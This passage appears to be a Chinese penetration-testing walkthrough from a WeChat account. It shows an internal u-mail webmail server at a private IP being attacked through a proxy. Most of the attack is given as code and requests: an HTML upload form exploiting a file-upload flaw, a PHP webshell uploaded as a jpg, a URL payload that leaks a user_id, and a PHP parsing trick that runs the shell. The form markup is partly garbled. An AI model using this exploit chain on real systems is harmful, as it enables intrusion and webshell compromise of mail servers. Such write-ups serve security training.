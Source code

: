 ![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOdrca1bFwOvx7APViaKZcQ2qAL2D2G5xnZIpJ19xC2ZJIxaz1lEfv2Qd8RdmlFPicVMPVIcmkgCKOwg/640?wx_fmt=png)

使用代理打开 Firefox 浏览器，**注：**命令前面加 proxychains => 使用代理执行该命令

```
proxychains firefox
```

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOdrca1bFwOvx7APViaKZcQ2qAWicokVH5nnNkb16zYekcHmkWvLJM9XiaC9InTzIpmibzDoBccEwiboNibw/640?wx_fmt=png)

利用上面我们发现的账号密码成功登录该网站

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOdrca1bFwOvx7APViaKZcQ2qnveicQu648Vv3I76adiaIBEhEdwlAP0Qk5MVxUKE5sNvWeMUu8EQBrbg/640?wx_fmt=png)

发现这个网站是一个 u-mailCMS，我们发现 u-mail 爆发过一个很严重的文件上传漏洞，可以尝试一下这个网站是否修复了这个漏洞，Exp 代码如下：

```
<meta http-equiv="Content-Type" content="text/html; charset=utf-8" />
<FORM http://172.19.23.123/webmail/client/mail/index.php?module=operate&action=attach-upload" enctype=multipart/form-data>
ʏԫτݾú<input type="file" >
<INPUT type=submit value=ʏԫ name=Submit>
```

使用代理打开构造的 html 页面，然后上传一个后缀为 jpg 的 php 大马

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOdrca1bFwOvx7APViaKZcQ2qEn8OeHRXFIz33UVzu2lP2kF4yNBbDDWQNnN2gRqPmGnic1wGqodm3lw/640?wx_fmt=png)

上传成功后回显出文件 file_id 信息

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOdrca1bFwOvx7APViaKZcQ2qokaxoic0ibbMeUia90AzNb6hQLhwibWplelMNqsUCXNAsrml4DJt6pk2dQ/640?wx_fmt=png)

利用下面 payload 获取到当前登录的 user_id 为 3

```
http://172.19.23.123/webmail/client/oab/index.php?module=operate&action=member-get&page=1&orderby=&is_reverse=1&keyword=xgk
```

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOdrca1bFwOvx7APViaKZcQ2qCAP4F6DNWwNEicP6ibReUeYIKtpL8OTnhC6YoLjPJH4oXlOlBhA2Zs8A/640?wx_fmt=png)

利用爆出来的 user_id 和 file_id 构造出上传的大马文件路径，并利用 PHP 解析漏洞，路径后面加 /.php 成功解析

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOdrca1bFwOvx7APViaKZcQ2qkQnqBo8ibrMlnNzXP7FI1TB6HqT0ITGKdVpe9SQ1x6xQcwGfJkIBF7Q/640?wx_fmt=png)

关注公众号回复 “9527” 可免费获取一套 HTB 靶场文档和视频，“1120” 安全参考等安全杂志 PDF 电子版，“1208” 个人常用高效爆破字典，“0221”2020 年酒仙桥文章打包，还在等什么？赶紧点击下方名片关注学习吧！

公众号

* * *

**推 荐 阅 读**

  

  

  
